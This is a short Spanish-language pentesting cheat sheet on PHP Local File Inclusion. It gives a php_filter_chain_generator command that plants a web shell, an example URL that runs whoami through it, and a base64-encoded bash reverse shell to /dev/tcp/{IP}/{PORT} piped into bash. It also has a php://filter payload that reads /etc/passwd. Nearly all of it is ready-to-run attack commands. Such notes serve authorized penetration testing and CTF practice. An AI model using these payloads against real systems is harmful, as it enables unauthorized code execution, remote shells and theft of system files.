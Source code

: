 ```yaml
---
title : LFI
published : True
---
```

* <p> LFI : <a href="https://deephacking.tech/local-file-inclusion-lfi-web/">Local File Inclusion</a></p>
* <p>Local File Inclusion wrappers : <a href="https://deephacking.tech/php-wrappers-pentesting-web/">Wrappers</a></p>
* <p>Lfi exploit filter convert .ico : <a href="uploads/php_filter_chain_generator.py" download="php_filter_chain_generator.py">php_filter_chain_generator.py</a></p>


```bash
	python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`;?>'

```
* <p>Lo que nos permite un Shell con el parámetro indicativo 0 es decir:<br> <font color="red">http://10.10.10.10/login.php?0=whoami&file=//{chain generator}</font></p>
<p></p>
* <p> también podemos hacernos una <font color="red">web Shell</font> como parámetro, pero para no dar conflictos en cabeza a la url por la codificación, tendría que estar en base64.</p>
<p></p>
```bash
$ echo "/bin/bash -i >& /dev/tcp/{IP}/{PORT} 0>&1" | base64 
 L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK

```
* <p>Luego los parámetros a pasar por la url ya serian como :</p>
<p></p>
```bash
	echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK" | base64 -d|bash

```
* <p><font color="red">Wraper de codificación en base64</font> para la lectura de un archivo.</p>
<p></p>

```bash
	http://10.10.10.10/login.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

```
